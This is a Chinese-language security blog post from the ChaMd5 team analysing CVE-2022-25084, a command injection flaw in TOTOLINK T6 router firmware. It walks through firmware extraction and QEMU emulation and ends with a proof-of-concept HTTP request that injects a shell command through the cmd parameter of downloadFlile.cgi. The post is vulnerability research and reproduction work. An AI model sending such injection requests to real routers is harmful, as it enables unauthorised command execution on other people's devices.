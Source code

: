 #  TOTOLINK CVE-2022-25084 漏洞分析&复现   
原创 oraclepi  ChaMd5安全团队   2023-08-22 08:31  
  
> 招新小广告CTF组诚招re、crypto、pwn、misc、合约方向的师傅,长期招新IOT+Car+工控+样本分析多个组招人有意向的师傅请联系邮箱  
  
admin@chamd5.org(带上简历和想加入的小组)  
  
  
## 概述：  
  
TOTOLINK T6_Firmware V5.9c.4085_B20190428存在一个任意命令执行漏洞，位于cgi-bin/downloadFlile.cgi中  
  
下载链接(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)  
## 漏洞：  
  
漏洞点出现在cgi-bin/downloadFlile.cgi程序中main函数中![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBQnyBY36Z63Xic9n4rzryNviamHx3f8bSe6cZzuORZvtuoa2cic2O1IkzzjjvnPJL2gKBvCj0fPCwJgQ/640?wx_fmt=png "")  
程序通过获取请求参数将参数传递给变量v14，之后再通过sprintf将参数格式化拼接在变量v24后 未被过滤的v24传入system函数，进而导致任意命令执行  
## 复现：  
  
binwalk -Me提取固件后进入squashfs-root目录下执行readelf -h ./bin/busybox查看架构等相关信息  
```
ELF 头：
  Magic：  7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00 
  类别:                              ELF32
  数据:                              2 补码，小端序 (little endian)
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI 版本:                          0
  类型:                              EXEC (可执行文件)
  系统架构:                          MIPS R3000
  版本:                              0x1
  入口点地址：              0x403bc0
  程序头起点：              52 (bytes into file)
  Start of section headers:          0 (bytes into file)
  标志：             0x70001005, noreorder, cpic, o32, mips32r2
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         8
  Size of section headers:           0 (bytes)
  Number of section headers:         0
  Section header string table index: 0

```  
  
确定为mipsel后采用qemu的system模式模拟 首先配置网络，将以下内容写入文件后source即可  
```
sudo brctl addbr virbr2 # 创建网桥
sudo ifconfig virbr2 192.168.122.1/24 up # 配置网桥IP
sudo tunctl -t tap2 # 添加虚拟网卡tap2
sudo ifconfig tap2 192.168.122.11/24 up # 配置虚拟网卡IP
sudo brctl addif virbr2 tap2 # 配置虚拟网卡与网桥连接

```  
  
提前下载好镜像和虚拟磁盘  
```
wget https://people.debian.org/~aurel32/qemu/mipsel/debian_wheezy_mipsel_standard.qcow2 && wget https://people.debian.org/~aurel32/qemu/mipsel/vmlinux-3.2.0-4-4kc-malta

```  
  
然后启动虚拟机  
```
sudo qemu-system-mipsel \
-M malta \
-cpu 24KEc \
-m 1G \
-object rng-random,id=rng0,filename=/dev/urandom -device virtio-rng-pci,rng=rng0 \
-kernel vmlinux-3.2.0-4-4kc-malta \
-hda debian_wheezy_mipsel_standard.qcow2 \
-append "root=/dev/sda1 console=tty0" \
-netdev tap,id=tapnet,ifname=tap2,script=no \
-device rtl8139,netdev=tapnet \
-nographic

```  
  
虚拟机启动成功后root/root进入，此时配置虚拟机网络  
```
ifconfig eth0 192.168.122.15 up

```  
  
方便起见，先将lighttp/lighttpd.conf中的pid一行注释掉，后续就不用单独创建![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBQnyBY36Z63Xic9n4rzryNviaayWlPWErnicibZTSJSPFzMbFRFsjghYOhIAibTsg5162Dn1DlPveibyr2Q/640?wx_fmt=png "")  
此时通过scp -r squashfs-root/ root@192.168.122.15:/root/将文件系统传输到虚拟机上 如果报错  
```
scp: realpath /root/squashfs-root: No such file
scp: upload "/root/squashfs-root": path canonicalization failed
scp: failed to upload directory squashfs-root to /root

```  
  
记得加-O就行了 传输完成后挂载路由器系统并启动web服务  
```
chroot ./squashfs-root/ /bin/sh 
/bin/lighttpd -f /lighttp/lighttpd.conf

```  
  
此时遇到报错![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBQnyBY36Z63Xic9n4rzryNviafdPbjVdqhtSiaEpmXJ74tZbjKNtLibic6uv1PWCicciatellJogiczicCtWlw/640?wx_fmt=png "")  
则需要指定动态链接库，加上后变成  
```
./bin/lighttpd -f ./lighttp/lighttpd.conf -m ./lighttp/lib

```  
  
可以成功启动服务![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBQnyBY36Z63Xic9n4rzryNviat6EDzhIoz3euDyST4xhOeHP61lXN7FzGl2yEHxudicg2nxXUGeoxXUw/640?wx_fmt=png "")  
POC：  
```
GET /cgi-bin/downloadFlile.cgi?cmd=`ls>../cmd4.txt` HTTP/1.1
Host: 192.168.122.15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-None-Match: "-1779788291"
If-Modified-Since: Mon, 07 Aug 2023 14:09:36 GMT
Connection: close

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBQnyBY36Z63Xic9n4rzryNviaBNTxP2jGCyrKr0mPKwicRzNy4Wc3hAdyvJwGUVsvTx2oiauDUGS6JDJQ/640?wx_fmt=png "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PUubqXlrzBQnyBY36Z63Xic9n4rzryNviaLic6LJ7g46aJ6xARnMdaC3E9LBs7ia1SvygNELGoDF2NxvfvYe8YM4Gg/640?wx_fmt=png "")  
  
- END -  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBR8nk7RR7HefBINILy4PClwoEMzGCJovye9KIsEjCKwxlqcSFsGJSv3OtYIjmKpXzVyfzlqSicWwxQ/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
